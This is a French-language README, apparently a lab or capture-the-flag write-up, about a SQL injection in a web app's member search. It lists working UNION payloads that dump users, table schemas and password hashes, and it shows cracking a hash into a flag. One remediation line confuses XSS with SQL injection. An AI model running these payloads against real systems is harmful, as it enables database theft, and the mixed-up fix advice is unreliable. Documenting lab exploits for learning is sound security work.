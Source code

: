 # README : Exploit de SQL Injection sur Member Search

## Description

Cette brèche met en évidence une vulnérabilité dans la gestion des paramètres d'URL d'une application web. Elle permet à un attaquant potentiel d'exécuter des commandes SQL malveillantes pour accéder à des informations sensibles sur le serveur.

## Fonctionnement

- Accédez à la page : `http://X.X.X.X/?page=member`
- Utilisez une injection SQL dans l'URL, par exemple :

```sql
1 or 1=1 #show all users with one ID
1 or 1=1 UNION select table_name, column_name FROM information_schema.columns #show all tables_name and column_name on MariaDB

1 or 1=1 UNION select Commentaire, countersign FROM users #show Commentaires and countersign on users table
```

- On a alors une reponse avec une instruction et un mdp crypte.

```txt
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

- Decryptez le Surname: `5ff9d0165b4f92b14994e5c685cdce28` sur Dcode https://www.dcode.fr/md5-hash,  
   puis suivre les instructions :  
   `FortyTwo == fortytwo`,  
   string to sha256 : https://www.dcode.fr/sha256-hash

## Impact

Cette vulnérabilité peut permettre à un attaquant de :

- Accéder aux informations sensibles du système de base de données
- Obtenir des listes d'utilisateurs et leurs mots de passe chiffrés
- Potentiellement exposer des données confidentielles

## Recommandations

Pour corriger cette vulnérabilité :

- Valider et sécuriser tous les paramètres d'URL côté serveur avant de les utiliser ou de les interpréter.
- Utiliser une validation robuste pour empêcher l'exécution de code malveillant dans les paramètres URL.
- Implémenter une protection anti-XSS pour éviter l'exécution de commandes SQL dans le navigateur.
- Limiter les permissions du serveur web pour restreindre l'accès aux dossiers sensibles.
